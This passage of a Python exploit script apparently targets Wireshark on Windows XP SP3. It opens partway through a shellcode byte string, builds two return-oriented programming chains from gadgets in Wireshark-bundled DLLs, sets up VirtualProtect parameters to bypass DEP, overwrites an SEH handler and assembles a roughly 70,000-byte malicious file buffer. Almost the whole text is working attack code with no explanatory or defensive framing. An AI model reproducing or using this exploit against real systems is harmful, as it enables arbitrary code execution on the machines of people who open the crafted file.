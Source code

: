 "\x93\x92\x4e\xe4\xf9\x1c\xb1\x14\x02\xf7\xc4\x12\xcc\x23" +
"\x85\xf4\x2d\xd4\x38\x59\xbb\x32\x50\x71\xed\xed\xcc\xb3" +
"\xca\x25\x6b\xcb\x38\x1a\x24\x5b\x74\x74\xf2\x64\x85\x52" +
"\x51\xc8\x2d\x35\x21\x02\xea\x24\x36\x0f\x5a\x2e\x0f\xd8" +
"\x10\x5e\xc2\x78\x24\x4b\xb4\x19\xb7\x10\x44\x57\xa4\x8e" +
"\x13\x30\x1a\xc7\xf1\xac\x05\x71\xe7\x2c\xd3\xba\xa3\xea" +
"\x20\x44\x2a\x7e\x1c\x62\x3c\x46\x9d\x2e\x68\x16\xc8\xf8" +
"\xc6\xd0\xa2\x4a\xb0\x8a\x19\x05\x54\x4a\x52\x96\x22\x53" +
"\xbf\x60\xca\xe2\x16\x35\xf5\xcb\xfe\xb1\x8e\x31\x9f\x3e" +
"\x45\xf2\xaf\x74\xc7\x53\x38\xd1\x92\xe1\x25\xe2\x49\x25" +
"\x50\x61\x7b\xd6\xa7\x79\x0e\xd3\xec\x3d\xe3\xa9\x7d\xa8" +
"\x03\x1d\x7d\xf9"
)

#---------------------          ROP 1        ------------------------#
rop = struct.pack('<L', 0x6c4c51b1)         # INC EAX # PUSH ESP # POP EBP # RETN    ** [libsmi-2.dll] **
rop += struct.pack('<L', 0x64755067)        # DEC EAX # RETN    ** [libpng15-15.dll] ** 
rop += struct.pack('<L',0x1003d541)         # ADD EAX,EBP # RETN    ** [wiretap-1.10.0.dll] **
rop += struct.pack('<L',0x61792c97)         # DEC EDX # ADD ESP,1C # RETN    ** [libgtk-win32-2.0-0.dll] **

#---------------------          ROP 2        ------------------------#
rop2 = struct.pack('<L', 0x647460a8)        # ADD EAX,144 # RETN    ** [libpng15-15.dll] **
rop2 += struct.pack('<L', 0x6c4f224e)       # MOV EDX,EBP # POP EBX # POP ESI # POP EDI # POP EBP # RETN    ** [libsmi-2.dll] **
rop2 += struct.pack('<L', 0x41414141)       # Compensate POP EBX
rop2 += struct.pack('<L', 0x41414141)       # Compensate POP ESI
rop2 += struct.pack('<L', 0x41414141)       # Compensate POP EDI
rop2 += struct.pack('<L', 0x41414141)       # Compensate POP EBP
rop2 += struct.pack('<L', 0x68dd5049)       # MOV DWORD PTR DS:[EDX+10],EAX # RETN    ** [libcairo-2.dll] **
rop2 += struct.pack('<L', 0x6b8032ca)       # MOV DWORD PTR DS:[EDX+14],EAX # RETN    ** [libjpeg-8.dll] **
rop2 += struct.pack('<L', 0x655a5f3c)       # XOR EAX,EAX # RETN    ** [libpango-1.0-0.dll] **
rop2 += struct.pack('<L', 0x647460a8)       # ADD EAX,144 # RETN    ** [libpng15-15.dll] **
rop2 += struct.pack('<L', 0x647460a8)       # ADD EAX,144 # RETN    ** [libpng15-15.dll] **
rop2 += struct.pack('<L', 0x647460a8)       # ADD EAX,144 # RETN    ** [libpng15-15.dll] **
rop2 += struct.pack('<L', 0x6b28318b) * 8   # INC EDX # RETN    ** [libgpg-error-0.dll] **
rop2 += struct.pack('<L', 0x68dd5049)       # MOV DWORD PTR DS:[EDX+10],EAX # RETN    ** [libcairo-2.dll] **
rop2 += struct.pack('<L', 0x655a5f3c)       # XOR EAX,EAX # RETN    ** [libpango-1.0-0.dll] **
rop2 += struct.pack('<L', 0x78b462d3)       # ADD EAX,40 # POP EBP # RETN    ** [MSVCR100.dll] **
rop2 += struct.pack('<L', 0x41414141)       # Compensate POP EBP
rop2 += struct.pack('<L', 0x6b28318b) * 4   # INC EDX # RETN    ** [libgpg-error-0.dll] **
rop2 += struct.pack('<L', 0x68dd5049)       # MOV DWORD PTR DS:[EDX+10],EAX # RETN    ** [libcairo-2.dll] ** 
rop2 += struct.pack('<L', 0x68e12005)       # MOV EAX,EDX # RETN    ** [libcairo-2.dll] ** 
rop2 += struct.pack('<L', 0x63ccb108)       # PUSH EAX # POP ESP # RETN    ** [liblzma-5.dll] **

#--------------------- VirtualProtect parameters ------------------------#
params = struct.pack('<L', 0x7C801AD4)      # VirtualProtect address XP SP3
params += "WWWW"                            # Shellcode address
params += "XXXX"                            # Shellcode address
params += "YYYY"                            # Size
params += "ZZZZ"                            # EXECUTABLE 0x40
params += struct.pack('<L', 0x66824f7d)     # Writeable address

junk2 = '\x41' * 192                        # 192 first bytes
seh = struct.pack('<L',0x613dbb46)          # libfreetype-6.dll
ropnop = '\x90' * 100                       # NOPs

filestruct = junk2 + rop + params + '\x45' * 4 + rop2 + '\x41' * 280 + ropnop + shellcode + '\x41' * (70136-len(junk2)-len(params)-len(shellcode)-284-len(rop)-len(rop2)-len(ropnop)) + seh + params + '\x44' * (50-len(params))

